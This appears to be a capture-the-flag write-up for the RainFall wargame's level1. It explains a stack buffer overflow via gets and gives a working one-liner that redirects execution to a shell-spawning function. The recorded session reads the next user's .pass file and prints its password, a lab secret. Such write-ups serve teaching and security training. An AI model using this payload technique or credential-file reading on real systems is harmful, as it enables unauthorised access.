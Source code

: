this is a simple buffer overflow where we overwrite the return adress of `main` to jump to `run` function :

```x86asm
   0x08048486 <+6>:	    sub    esp,0x50 
   0x08048489 <+9>:	    lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
```

```
[lower addresses]
+-------------------+
| [esp+0x00]        | <- start of stack frame
|                   |
| [esp+0x10]        | <- start of buffer used in gets
|                   |    (where we will use the buffer overflow)
|                   |
+-------------------+
| saved ebp         | <- saved ebp
+-------------------+
| saved eip         | <- return address
+-------------------+
[higher addresses]
```

since the stack frame is of size `0x50 (80)` and the buffer starts at `0x10 (16)`, then it's a matter of simple calculation :

```
80 (size of stack frame) + (stack alignment) - 16 (offset to buffer start) + 4 (size of ebp) = 76
```

```bash
0x080482f8  _init
0x08048340  gets@plt
0x08048350  fwrite@plt
0x08048360  system@plt
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run # this is the function we want to reach
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

since we can reach and overwrite the return address of `main` we can write the address of `run` function :

```bash
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x08\x04\x84\x44"[::-1]'; cat) | ./level1 
Good... Wait what?
whoami	
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

and there you go, you got the flag.